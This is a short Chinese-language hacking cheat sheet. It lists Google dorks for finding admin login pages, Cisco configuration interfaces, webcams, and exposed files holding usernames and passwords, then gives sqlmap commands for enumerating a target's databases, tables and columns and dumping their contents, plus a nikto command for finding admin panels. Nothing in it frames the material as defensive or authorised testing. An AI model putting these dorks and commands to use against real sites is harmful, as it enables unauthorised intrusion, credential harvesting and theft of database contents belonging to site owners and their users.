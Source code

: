 #google搜索  
+关键字（需要） -（需要屏蔽的关键字）-（需要屏蔽的关键字）  
+北京php -上学堂  

关键字搜索和过滤。  

"精确搜索"  "字符串"  

intitle 后台登录  
intext 电话  
intext 法人  
intitle 后台登陆 intext:电话  

site:alibaba.com  inurl:contact 搜索在此网站内的某些字段。  
sox filetype:pdf  搜索到此文件的pdf格式  
payment site:cn 搜索带有payment页面。  

inurl:"level/15/exec/-/show" 搜索思科设备的配置管理界面  
intitle:"netbotz" "ok" 搜索网络摄像头  
inurl:/admin/login.php 搜索包含admin和login的网络地址  
inurl:qq.txt 搜索QQ文本。  
filetype:xls"username|password" 搜索一个文本，文本内包含用户名和密码  

inurl:ftp "password" filetype:xls site:baidu.com  
inurl:server.pwd 搜索frontpage漏洞，并暴露出帐号和密码  
http://exploit-db.com/google-dorks 谷歌语法大全  

https://www.yandex.com 俄罗斯搜索引擎  



#查询语法  
公司 url:asp?id=  

#查询该网站数据库  
sqlmap -u 网址 --dbs --current-user  

#拆解数据库  
sqlmap -u 网址 --tables	当出现报错信息时，使用默认字典进行爆破攻击。  

#查询表内字段  
sqlmap -u 网址 -T 表名 --columns 	查询-T表名内的字段信息  

#查询具体信息  
sqlmap -u 网址 -T 表名 -C 字段名1，字段名2  --dump  

nikto -host 网址		寻找管理后台  

